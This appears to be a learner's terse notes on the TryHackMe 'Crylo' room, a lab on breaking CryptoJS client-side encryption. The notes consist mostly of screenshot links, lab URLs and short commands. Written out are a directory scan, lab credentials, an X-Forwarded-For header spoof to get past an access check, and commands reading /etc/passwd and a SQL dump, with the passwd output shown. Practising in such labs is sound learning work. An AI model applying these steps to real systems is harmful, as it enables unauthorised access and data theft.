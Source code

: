 ## 12082023Sat

[view-source:https://tryhackme.com/room/crylo4a](https://tryhackme.com/room/crylo4a)

```
Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.
```

![[Pasted image 20230812154026.png]]

![[Pasted image 20230812154244.png]]

![[Pasted image 20230812162546.png]]

```
feroxbuster -u http://10.10.69.189/
```

![[Pasted image 20230812160603.png]]

![[Pasted image 20230812160833.png]]

http://10.10.69.189/debug

![[Pasted image 20230812162754.png]]

http://10.10.69.189/2fa

![[Pasted image 20230812162945.png]]

http://10.10.69.189/recipe

![[Pasted image 20230812163214.png]]

![[Pasted image 20230812165633.png]]
![[Pasted image 20230812165728.png]]

http://10.10.69.189/set-pin

## 13082023Sun

https://medium.com/@samarth.vashisht/breaking-client-side-encryption-with-javascript-bd16715ee2ff

![[Pasted image 20230813105628.png]]

https://cdnjs.com/libraries/crypto-js

## 14082023Mon

**TryHackMe - Crylo (No Sqlmap)**
https://youtu.be/q56xewO80AM
https://www.youtube.com/@readysetexploit

```
admin:trigger
```

http://10.10.69.189/set-pin

![[Pasted image 20230814070452.png]]
![[Pasted image 20230814071234.png]]
![[Pasted image 20230814071359.png]]
![[Pasted image 20230814072011.png]]
![[Pasted image 20230814072043.png]]

```
X-Forwarded-For: 127.0.0.1
```

![[Pasted image 20230814072850.png]]
![[Pasted image 20230814073201.png]]
![[Pasted image 20230814073234.png]]
![[Pasted image 20230814073353.png]]
![[Pasted image 20230814073510.png]]
![[Pasted image 20230814073625.png]]
![[Pasted image 20230814073816.png]]
![[Pasted image 20230814073926.png]]

```
fa3e352b00adf9d4e967ad0e34d5e59d
```

![[Pasted image 20230814074051.png]]
![[Pasted image 20230814074207.png]]

```
getent group sudo
```

![[Pasted image 20230814074733.png]]
![[Pasted image 20230814074818.png]]

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin anof:x:1000:1000:anof:/home/anof:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false crylo:x:1001:1001::/home/crylo:/bin/bash fwupd-refresh:x:114:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

![[Pasted image 20230814075041.png]]

```
total 24 
lrwxrwxrwx 1 root root 34 Oct 2 2021 default -> /etc/nginx/sites-available/default 
-rw-r--r-- 1 root root 21440 Jul 22 2022 dump_file.sql 
```

```
cat /home/anof/dump_file.sql
```
![[Pasted image 20230814075213.png]]

```

```